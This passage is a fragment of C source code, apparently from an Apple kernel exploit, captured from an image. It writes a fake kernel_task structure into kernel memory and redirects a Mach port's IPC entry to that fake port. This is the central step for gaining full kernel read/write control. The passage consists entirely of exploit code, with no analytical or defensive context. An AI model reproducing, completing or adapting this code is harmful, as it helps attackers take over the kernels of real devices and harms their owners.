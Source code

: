     	uint64_t fake_port_address = page;
    	// Copy the contents into the kernel.
    	bool ok = kernel_write(page, data, size);
    	if (!ok) {
    		ERROR("could not write fake kernel_task into kernel memory");
    		goto fail_1;
    	}
    	// Modify fake_port's ipc_entry so that it points to our new fake port.
    	uint64_t ipc_entry;
    	ok = kernel_ipc_port_lookup(current_task, fake_port, NULL, &ipc_entry);
    	if (!ok) {
    		ERROR("could not look up the IPC entry for the fake port");
    		fail();
    	}
    	kernel_write64(ipc_entry + OFFSET(ipc_entry, ie_object), fake_port_address);
